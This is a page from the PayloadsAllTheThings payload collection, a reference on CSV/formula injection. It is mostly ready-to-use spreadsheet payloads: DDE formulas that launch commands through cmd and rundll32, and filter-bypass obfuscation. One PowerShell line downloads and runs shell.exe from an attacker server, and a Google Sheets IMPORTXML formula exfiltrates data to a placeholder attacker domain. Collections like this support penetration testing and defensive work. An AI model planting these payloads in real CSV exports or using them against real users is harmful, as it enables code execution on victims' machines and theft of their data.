

repository: swisskyrepo/PayloadsAllTheThings · page: CSV Injection/index.html · generator: mkdocs

# CSV Injection

> Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Summary

* [Methodology](#methodology)
    * [Google Sheets](#google-sheets)
* [References](#references)

## Methodology

CSV Injection, also known as Formula Injection, is a security vulnerability that occurs when untrusted input is included in a CSV file. Any formula can be started with:

```text
=
+
–
@
```

Basic exploits with **Dynamic Data Exchange**.

* Spawn a calc

    ```text
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell download and execute

    ```text
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* Prefix obfuscation and command chaining

    ```text
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* Using rundll32 instead of cmd

    ```text
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.

    ```text
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

Technical details of the above payloads:

* `cmd` is the name the server can respond to whenever a client is trying to access the server
* `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
* `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

### Google Sheets

Google Sheets allows some additional formulas that are able to fetch remote URLs:

* [IMPORTXML](https://support.google.com/docs/answer/3093342?hl=en)(url, xpath_query, locale)
* [IMPORTRANGE](https://support.google.com/docs/answer/3093340)(spreadsheet_url, range_string)
* [IMPORTHTML](https://support.google.com/docs/answer/3093339)(url, query, index)
* [IMPORTFEED](https://support.google.com/docs/answer/3093337)(url, [query], [headers], [num_items])
* [IMPORTDATA](https://support.google.com/docs/answer/3093335)(url)

So one can test blind formula injection or a potential for data exfiltration with:

```text
=IMPORTXML("http://[ATTACKER.DOMAIN.TLD]/csv", "//a/@href")
```

Note: an alert will warn the user a formula is trying to contact an external resource and ask for authorization.
